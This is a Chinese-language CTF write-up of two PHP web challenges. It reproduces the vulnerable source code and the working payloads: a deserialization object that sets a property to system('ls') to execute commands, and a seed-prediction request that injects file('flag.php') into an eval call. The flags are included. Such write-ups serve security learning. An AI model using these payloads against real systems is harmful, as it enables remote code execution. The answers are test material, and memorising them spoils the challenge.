 ```php
	echo "user.php";
```
```php
# user.php
<?php
class convent{
	var $warn = "No hacker.";
	function __destruct(){
		eval($this->warn);
	}
	function __wakeup(){
		foreach(get_object_vars($this) as $k => $v) {
			$this->$k = null;
		}
	}
}
$cmd = $_POST[cmd];
unserialize($cmd);
?>
```
由user.php可知，本题是php反序列化绕过__wakeup然后命令执行。构造playload“cmd=O:7:"convent":2:{s:4:"warn";s:13:"system('ls');";}”post到user.php得到web根目录下所有文件
```
dsuhhjfdgjhaskjdkj.txt
index.php
show.php
user.php
```
访问“dsuhhjfdgjhaskjdkj.txt”得到flag
```
flag{qishinizhixuyaocaidaozhegewenjiandemingzijiuxingle}
```

#### random(200)
> http://120.55.43.255:27189

打开题目连接得到网页源码
```php
 <?php
    show_source(__FILE__);
    include "flag.php";
    $a = @$_REQUEST['hello'];
    $seed = @$_REQUEST['seed'];
    $key = @$_REQUEST['key'];
    
    mt_srand($seed);
    $true_key = mt_rand();
    if ($key == $true_key){
        echo "Key Confirm";
    }
    else{
        die("Key Error");
    }
    eval( "var_dump($a);");
?>
```
预测随机数然后代码执行，“/?seed=1&key=1244335972&hello=file("flag.php")”得到flag
```
flag{Y0u_Solv3_s4mpl3...oNc3_Mor3}
```
